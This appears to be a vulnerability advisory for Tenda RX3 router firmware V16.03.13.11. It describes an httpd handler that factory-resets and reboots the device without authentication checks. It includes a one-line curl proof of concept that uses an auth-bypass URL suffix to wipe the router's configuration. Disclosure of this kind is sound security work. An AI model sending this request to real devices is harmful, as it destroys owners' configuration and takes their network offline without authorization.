


| Firmware Name | Firmware Version    | Download Link |
| ------------- | ------------------- | ------------- |
| RX3           | V16.03.13.11_multi  | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

In the httpd binary, the function `fromSysToolRestoreSet` handles requests to `/goform/SysToolRestoreSet`. It calls `systool_sys_handle(1)` (factory reset) and `systool_sys_handle(0)` (reboot) without any internal authentication check or confirmation. The handler relies entirely on the web server's general authentication, with no additional verification for this critical action.

Combined with the [authentication bypass](../auth_bypass/detail.md), a single unauthenticated HTTP request from the LAN erases all device configuration and reboots to factory defaults.



## POC

```
curl -i -X POST "http://192.168.0.1/goform/SysToolRestoreSet?reasy-ui-1.0.3.js"
```



## Demo

https://github.com/user-attachments/assets/46340a2b-ee90-45d2-b850-0bce63283c9b
